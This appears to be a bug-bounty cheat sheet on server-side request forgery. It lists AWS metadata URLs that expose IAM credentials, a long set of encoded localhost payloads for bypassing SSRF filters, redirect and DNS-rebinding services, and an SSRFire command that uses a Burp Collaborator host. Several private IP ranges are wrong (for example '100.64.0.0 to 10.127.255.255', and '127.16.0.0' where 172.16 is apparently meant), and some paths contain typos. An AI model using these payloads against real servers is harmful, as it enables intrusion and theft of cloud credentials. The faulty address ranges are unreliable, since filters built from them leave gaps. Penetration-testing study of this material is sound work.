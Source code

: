 # SSRF

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
127.0.0.2
127.1
127.2
::1
0:0:0:0:0:0:0:1
0:0:0:000:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
2130706433
2130706434
7F000001
7F000002
localhos
127.123.123.123
0x7f.1
017700000001
127.0.0.1
localhost
0x7f.0x0.0x0.0x1
0177.00.00.01
017700000001
0x7f001
2130706433
017700000001
%6c%6f%63%61%6c%68%6f%73%74
%31%32%37%2e%30%2e%30%2e%31
0x7f000001
00000000177.000000000.000000000.000000001
0x7f.0x0.0x0.0x1
0x000000007f.0x000000000.0x000000000.0x000000001
0x7f.0x0.0x0.1
0x7f.0x0.0.1
0x7f.0.0.1
127.0x0.0x0.0x1
127.0.0x0.0x1
127.0.0.0x1
0177.00.00.1
0177.00.0.1
0177.0.0.1
127.00.00.01
127.0.00.01
127.0.0.01
0x7f.0x0.1
0x7f.1
0177.00.1
0177.1
0x7f.00.1
0177.0x0.1
::ffff:7f000001
0:0:0:0:0:ffff:7f000001
0000:0000:0000:0000:0000:ffff:7f000001
0000:0000:0000:0000:0000:ffff:127.0.0.1
hostname
0177.1
0177.2
0177.0.1
0177.0.2
017700000001
017700000002
0x7F000001
0x7F000002
0X07f.0.0.1
```

## IP Converter

- https://h.43z.one/ipconverter/

## Redirect from one URL to another

- https://ssrf.localdomain.pw

```
https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
```

- https://sslip.io/

## DNS Rebinding

To put it super simply, DNS rebinding allows you to have a hostname that switches between 2 ips with a very low ttl. This can bypass SSRF protections by resolving as a “safe” ip at first, then immediately switching to an “unsafe” or internal ip.

- https://lock.cmpxchg8b.com/rebinder.html

## Tools

```
# https://github.com/micha3lb3n/SSRFire
./ssrfire.sh -d domain.com -s burpcollab.com -f raw_urls
```

## Mindmap

![SSRF Mindmap](/ssrf_mindmap.png)

## Articles

| WriteUp | Description |
| --- | --- |
| https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962 | Configure burp to look for SSRFs |
| https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery | All about SSRF |
| https://github.com/jdonsec/AllThingsSSRF | All Things SSRF |
| https://github.com/assetnote/blind-ssrf-chains | Blind SSRF Chains | 
